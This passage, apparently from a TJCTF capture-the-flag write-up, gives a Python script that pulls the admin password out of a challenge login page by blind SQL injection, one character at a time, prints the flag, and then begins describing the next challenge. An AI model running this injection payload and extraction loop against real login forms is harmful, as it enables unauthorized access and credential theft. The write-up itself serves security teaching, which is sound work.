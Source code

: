 ```python

for i in range(1, 100):
    found = False
    for char in dic:
        print("[*] Trying {}{}".format(str(result), char))
        data = {
          'username': "admin",
          'password': '\' or (SELECT password FROM userandpassword WHERE username=\'admin\') LIKE \'{}{}%\' -- '.format(result, char)
        }
        response = requests.post('https://weak_password.tjctf.org/login', headers=headers, data=data)
        resp = str(response.content)

        if "Wrong username or password." in resp:
            print("wrong pass")

        if "Congratulations" in resp:
            result = result + char
            print("[*] Found char {}".format(char))
            print("[*] Current: {}".format(result))
            found = True
            break

    if not found:
        print("[X] Couldn't find char at position {}".format(i))
        print("[*] Current: {}".format(result))
        exit(1)

```

🏁 __tjctf{blindsqli14519}__{:.spoiler}

## Congenial Octo Couscous

> Team Congenial-Octo-Couscous is looking to replace one of its members for the Battlecode competition, who carried the team too hard and broke his back. Until a neural net can take his place, the team wants a 4th member. Figure out how to join the team and read the secret strategy guide to get the flag.

We are given a simple contact form so we can apply for the `COC` team membership. 
